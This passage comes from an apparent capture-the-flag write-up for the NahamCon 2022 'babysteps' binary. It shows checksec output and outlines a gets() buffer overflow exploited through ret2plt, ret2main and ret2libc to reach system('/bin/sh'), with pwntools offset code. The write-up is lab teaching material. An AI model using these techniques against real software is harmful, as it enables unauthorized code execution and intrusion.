 ```c
        break;

      default:
        puts("WAAAAAAHHHH, THAT NO-NO!!!\n");
        break;
    }

  }while(menu_option !='e');

}
```
## Checksec

Also the checksec :
```
> checksec babysteps
[*] '/home/nilgam/pentest/ctfs/nahamcon_2022/binexp/babysteps/babysteps'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## Let's pwn it !

Okay, so the function to exploit is `ask_baby_name()`, cause of the `gets()`
And, NX disabled, so stack is executable.

Probably we could inject a shellcode into the baby name, and return on the stack for execute it.
But, as there is probably too ASLR enabled on the server... this is a no-go, cause we should bruteforce the stack address.

So here, in my opinion, the solution is following that : 

- [ret2plt](#ret2plt)
- [ret2main](#ret2main)
- [ret2libc](#ret2libc)

That means, leak the libc address, using puts@plt(), ret2main to re-run again the binary, keeping the memory in state, then return on system('/bin/sh').

This can be performed with some steps, and two rop-chains, described as below.

### Offset

As we have seen previously in Babiersteps, we need the offset which allow us to overwrite the ret address. 
In our case, we only need the wrong EIP, which is 0x61616168: 
```
offset = cyclic_find(0x61616168)
payload = cyclic(offset)
```
